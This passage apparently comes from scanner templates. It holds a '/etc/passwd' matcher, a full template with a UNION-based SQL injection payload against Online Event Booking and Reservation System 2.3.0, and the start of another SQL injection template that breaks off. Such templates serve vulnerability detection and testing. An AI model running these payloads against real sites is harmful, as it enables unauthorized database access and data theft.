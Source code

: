 ### Matchers

**Type - regex**
- regex
    1. root:[x*]:0:0:

---
# Online Event Booking and Reservation System 2.3.0 - SQL Injection
## Description
- Online Event Booking and Reservation System 2.3.0 contains a SQL injection vulnerability in event-management/views. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2021,sqli,authenticated
## Requests
### Step - 1
```
POST /login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

name={{username}}&pwd={{password}}

```
### Step - 2
```
GET /views/?v=USER&ID=1%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2Cmd5({{num}})%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%3B--%20- HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. {{md5(num)}}

**Type - status**
- status
    1. 200

---
# PuneethReddyHC Online Shopping System homeaction.php SQL Injection
## Description
- An unauthenticated SQL injection vulnerability exists in PuneethReddyHC Online Shopping System through the /homeaction.php cat_id parameter. Using a post request does not sanitize the user input.
- severity - critical
- tags - cve,cve2021,sqli,injection
## Requests
- Method - POST
- Method - POST
### URL